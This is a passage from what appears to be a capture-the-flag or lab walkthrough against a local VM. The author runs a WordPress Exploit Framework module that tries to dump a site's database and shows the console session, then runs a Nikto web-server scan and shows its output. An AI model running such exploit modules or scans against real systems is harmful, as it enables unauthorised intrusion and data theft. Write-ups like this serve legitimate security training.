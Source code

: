 As this vulnerability lets you get a full dump of the database, I loaded up [WordPress Exploit Framework](https://github.com/rastating/wordpress-exploit-framework/) and executed the module against the VM:

```
wpxf > use auxiliary/all_in_one_migration_export

  [+] Loaded module: #<Wpxf::Auxiliary::AllInOneMigrationExport:0x0000000213f658>

wpxf [auxiliary/all_in_one_migration_export] > set host 192.168.1.100

  [+] Set host => 192.168.1.100

wpxf [auxiliary/all_in_one_migration_export] > set export_path ~/export.zip

  [+] Set export_path => ~/export.zip

wpxf [auxiliary/all_in_one_migration_export] > check

  [!] Target appears to be vulnerable

wpxf [auxiliary/all_in_one_migration_export] > run

  [!] http://192.168.1.100/ does not appear to be running WordPress
  [!] Execution failed

wpxf [auxiliary/all_in_one_migration_export] > set check_wordpress_and_online 0

  [+] Set check_wordpress_and_online => false

wpxf [auxiliary/all_in_one_migration_export] > run

  [-] Downloading website export...
  [+] Saved export to /home/rastating/export.zip
  [+] Execution finished successfully

wpxf [auxiliary/all_in_one_migration_export] >
```

Unfortunately, attempting to unzip this yielded an error and the file size was 1kb. As the plugin was seemingly failing to produce the export, I dropped this and moved on.

## Scanning The Web Server
As no reliable WordPress vulnerabilities showed up to the party, I fell back to more information gathering and used Nikto (`nikto -host 192.168.1.100`) to do a quick scan of the web server.

Unfortunately, Nikto didn't uncover much either, other than a potential separate admin area:

```
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.1.100
+ Target Hostname:    192.168.1.100
+ Target Port:        80
+ Start Time:         2017-05-29 15:01:06 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache
***
+ OSVDB-3092: /admin/: This might be interesting...
***
+ 7535 requests: 0 error(s) and 18 item(s) reported on remote host
+ End Time:           2017-05-29 15:04:37 (GMT-4) (211 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
